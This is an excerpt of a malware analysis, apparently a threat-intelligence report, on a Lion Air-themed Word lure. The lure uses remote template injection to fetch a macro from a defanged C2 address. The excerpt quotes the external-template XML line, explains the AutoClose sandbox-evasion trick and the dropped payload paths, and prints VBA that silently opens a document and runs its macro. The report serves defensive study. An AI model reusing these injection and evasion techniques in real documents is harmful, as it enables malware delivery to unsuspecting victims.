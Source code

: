 



<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="hxxp://188.241.58[.]170/live/owa/office.dotm" TargetMode="External"/>




1

<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="hxxp://188.241.58[.]170/live/owa/office.dotm" TargetMode="External"/>





If the C2 has already been taken offline the document will still open, but Word will be unable to retrieve the remote template and thus Word will not load a macro. In this situation, Word will present the same lure document to the victim as seen in Figure 2, but without the ability to enable macros via an Enable Content button. Assuming the C2 is still operational however, Word loads the remote template (SHA256: f1e2bceae81ccd54777f7862c616f22b581b47e0dda5cb02d0a722168ef194a5) and the user is presented with the screen as seen in Figure 1.

Figure 1 Lure screen
 
Once the victim presses the Enable content button, the embedded macro is executed. The macros used for these delivery documents use a less common method of using the AutoClose function. This is a form of anti-analysis as Word will not fully execute the malicious code until the user closes the document. If an automated sandbox exits its analysis session without specifically closing out the document, the sandbox may miss the malicious activity entirely. Once successfully executed, the macro will install a payload and save a document to the system. Typically, we expect to see a decoy document saved to the system and later displayed to make the victim less suspicious of malicious activity; however, in this case the document saved to the system was never displayed and does not contain any pertinent content to the Lion Air tragedy theme seen in the filename. The macro obtains the document saved to the system from within the document stored as UserForm1.Label1.Caption and will write it to:
%TEMP%\~temp.docm
The macro obtains the payload saved to the system from within the document stored as UserForm1.Label2.Caption and will write it to:
%APPDATA%\MSDN\~msdn.exe
The macro executes this payload in a rather interesting way by loading the dropped ~temp.docm document and calling a function within its embedded macro to run the payload. We believe the creator of this delivery document chose to run the payload from the dropped file as an evasion technique. Also, the fact the initial macro uses this dropped document for the execution of the payload may also explain why the document did not contain any decoy contents.
To carry out this functionality, after writing the  ~temp.docm and ~msdn.exe files to the system, the initial macro will load the ~temp.docm file as a Word Document object and attempts to run the function Proc1 in the Module1 macro within the ~temp.docm file, as seen in the following code snippet:





Set WA = CreateObject("Word.Application")
WA.Visible = False
Set oMyDoc = WA.Documents.Open(vF)
WA.Application.Run "Module1.Proc1"

